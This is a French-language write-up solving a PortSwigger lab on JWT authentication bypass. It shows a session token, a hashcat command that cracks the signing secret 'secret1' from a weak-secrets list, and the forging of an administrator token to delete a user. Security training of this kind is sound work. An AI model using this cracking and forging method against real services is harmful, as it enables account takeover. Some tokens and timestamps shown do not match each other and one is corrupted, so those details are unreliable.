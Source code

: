 # Lab

https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key

## Solution

Quand on se connecte sur le lab, on a un JWT dans un cookie.

```
eyJraWQiOiI3OWVkZGRhYi1iY2JlLTRmZTEtYTNiMi1mM2M0YTIxMGFjNGIiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTcwMjUwODU2OH0.Udrat0ipn1mPsL0lZ-vQEKenzg9RkMQTbmbDPUEF_q4
```

Le body du JWT décodé est le suivant :

```json
{
  "iss": "portswigger",
  "sub": "wiener",
  "exp": 1702506906
}
```

Si on passe le JWT dans hashcat pour le cracker avec [une liste de secrets faibles](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list), on trouve le secret `secret1` :

```bash
hashcat -a 0 -m 16500 eyJraWQiOiI3OWVkZGRhYi1iY2JlLTRmZTEtYTNiMi1mM2M0YTIxMGFjNGIiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE3MDI1MDg1Njh9.3lXSrut87b7-g9Yj-fw9pqptefSJeN3LSc7mom5Zym8 C:\Users\a\Documents\git\BSCP-CheetSheet\JWT\jwt.secrets.list

eyJraWQiOiI3OWVkZGRhYi1iY2JlLTRmZTEtYTNiMi1mM2M0YTIxMGFjNGIiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImVV4cCI6MTcwMjUwODU2OH0.Udrat0ipn1mPsL0lZ-vQEKenzg9RkMQTbmbDPUEF_q4:secret1
```

Ensuite on utilise ce secret pour forger notre propre JWT avec `administrator` en `sub` grace à [jwt.io](https://jwt.io/).

Puis avec ce JWT on a accès à la page d'administration et on peut supprimer l'utilisateur `carlos` pour valider le lab.